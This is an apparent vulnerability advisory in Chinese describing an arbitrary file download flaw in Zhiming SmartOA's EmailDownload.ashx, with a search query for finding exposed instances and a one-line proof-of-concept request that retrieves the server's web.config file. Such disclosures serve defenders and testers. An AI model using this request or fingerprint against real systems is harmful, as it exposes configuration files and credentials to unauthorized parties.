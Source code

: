# 智明 SmartOA EmailDownload.ashx 任意文件下载漏洞

# 智明 SmartOA EmailDownload.ashx 任意文件下载漏洞

## 漏洞描述

智明 SmartOA EmailDownload.ashx文件存在任意文件下载漏洞，通过漏洞可下载服务器上的敏感文件，查看敏感信息

## 漏洞影响

```
智明 SmartOA
```

## 网络测绘

```
app="智明协同-SmartOA"
```

## 漏洞复现

登录页面

![image-20220520133519986](/images/202205201335202.png)

验证POC

```
/file/EmailDownload.ashx?url=~/web.config&name=web.config
```

![image-20220520133538762](/images/202205201335862.png)

